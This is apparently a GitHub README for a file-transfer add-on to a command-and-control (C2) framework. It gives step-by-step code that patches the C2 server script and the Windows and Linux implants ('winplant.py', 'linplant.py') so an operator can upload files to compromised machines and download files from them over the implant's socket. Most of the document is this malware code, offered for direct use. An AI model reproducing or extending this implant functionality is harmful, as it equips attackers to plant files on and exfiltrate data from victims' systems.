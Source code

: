 # File Transfer Module

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

This module adds a function file called transfer.py to the project, which can be used to upload and download files to and from the C2 server.

# Usage

### smtp.py 

1. Create a new folder called "functions", and add the transfer.py file to it. 
2. Inside of the sockserver.py file, add the following imports:
```
import os.path
from functions.transfer import upload_file, download_file
```
3. Inside of the target_comm function of the main script, add the following
```
            elif message[:7] == 'upload ':
                filename = message[7:]
                filename = os.path.basename(filename)
                upload_file(filename)
            elif message[:9] == 'download ':
                filename = message[9:]
                print(filename)
                try:
                    if os.path.exists(filename):
                        download_file(filename)
                    else:
                        response = '0'
                        response = bytes((response), encoding='utf8')
                        secure_sock.send(response)
                except FileNotFoundError:
                    pass
```
3. Inside of both the winplant.py and linplant.py files, add the following functions:
```
def upload_file(file_name):
    try:
        f = open(file_name, 'wb')
        secure_sock.settimeout(2)
        chunk = secure_sock.recv(8192)
        while chunk:
            f.write(chunk)
            try:
                chunk = secure_sock.recv(8192)
            except socket.timeout as e:
                break
        secure_sock.settimeout(None)
        f.close()
    except Exception as e:
        print(e)


def download_file(file_name):
    try:
        f = open(file_name, 'rb')
        while True:
            try:
                bytes_read = f.read(8192)
                if not bytes_read:
                    break
                secure_sock.send(bytes_read)
            except Exception as e:
                print(e)
    except Exception as e:
        print(e)
```
4. Inside of the session_handler function of both payloads, add the following:
```
            elif message[:7] == 'upload ':
                filename = message[7:]
                filename = os.path.basename(filename)
                upload_file(filename)
            elif message[:9] == 'download ':
                filename = message[9:]
                download_file(filename)
```

### Functionality 
Using the ```upload``` and ```download``` commands followed by the file name to send, you can transfer files to and from.

## Notes
This update does not currently like downloading files that are not text-based.

